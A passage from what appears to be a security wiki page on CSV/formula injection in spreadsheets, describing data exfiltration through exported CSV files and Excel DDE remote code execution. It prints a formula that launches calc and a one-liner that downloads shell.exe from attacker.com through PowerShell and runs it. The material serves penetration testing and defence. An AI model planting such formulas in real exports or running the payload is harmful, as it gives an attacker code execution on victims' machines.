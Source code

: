 CSV file exported contains malicious payload in it.

![](https://payatu.com/wp-content/uploads/2017/11/Selection\_010.png)

The details of student in logged in the attackers web server.

![](https://payatu.com/wp-content/uploads/2017/11/Selection\_011.png)

### RCE

For this example to work it's **needed to have enable the following configuration**:\
File → Options → Trust Center → Trust Center Settings → External Content → Enable Dynamic Data Exchange Server Launch\
or the use of an **old Excel version**.

The good news is that **this payload is executed automatically when the file is opened** (f the user accepts the warnings).

It's possible to execute a calculator with the following payload **`=cmd|' /C calc'!xxx`**

![](<../.gitbook/assets/image (25) (2) (2) (2) (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png>)

### More

```bash
=cmd|' /C powershell Invoke-WebRequest "http://www.attacker.com/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```

### LFI

**LibreOffice Calc**
